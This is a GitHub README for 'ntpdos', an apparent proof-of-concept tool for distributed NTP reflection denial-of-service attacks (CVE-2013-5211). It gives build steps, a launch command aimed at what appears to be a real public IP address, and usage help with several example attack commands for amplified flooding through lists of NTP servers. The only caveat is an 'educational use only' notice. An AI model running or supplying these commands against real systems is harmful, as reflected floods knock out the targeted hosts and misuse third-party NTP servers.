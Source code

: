 # ntpdos

PoC for distributed NTP reflection DoS (CVE-2013-5211).

git clone https://github.com/CryptoXSS/ntpdos2

cd ntpdos

make

./ntpdos -t 50.7.198.146 -S servers.lst -p 4

<a href="https://www.raulprietofernandez.net/blog/gnu-linux/como-instalar-un-servidor-de-ntp-en-gnu-linux-ubuntu-server">ntp</a>

## Usage

```
$ ./ntpdos -H
--==[ ntpdos by sepehrdad ]==--

usage:

  ntpdos -t <addr> -s <addr> [options] | [misc]

options:

  -t <addr>    - target ip address
  -T <file>    - list of target ip addresses
  -s <addr>    - ntp server ip address
  -S <file>    - list of ntp server ip addresses
  -p <num>     - number of parallel processes (default: 80)
  -d <num>     - delay in microsecs (default: 1000)

misc:

  -V           - show version
  -H           - show help

example:

  # Attack 127.0.0.1 with servers from servers.lst
  $ ntpdos -t 127.0.0.1 -S servers.lst

  # Attack targets from targets.lst with 192.168.2.11 server
  $ ntpdos -T targets.lst -s 192.168.2.11

  # Attack targets from targets.lst with servers from servers.lst
  $ ntpdos -T targets.lst -S servers.lst

  # Attack 1.2.3.4 with 5.6.7.8 using 200 parallel processes
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -p 200

  # Attack 1.2.3.4 with 5.6.7.8 with 1 microsec delay
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -d 1

notes:

  * list of ip addresses should have 1 ip address per line

```

## License

This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE

THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## Get Involved

**Please, send us pull requests!**
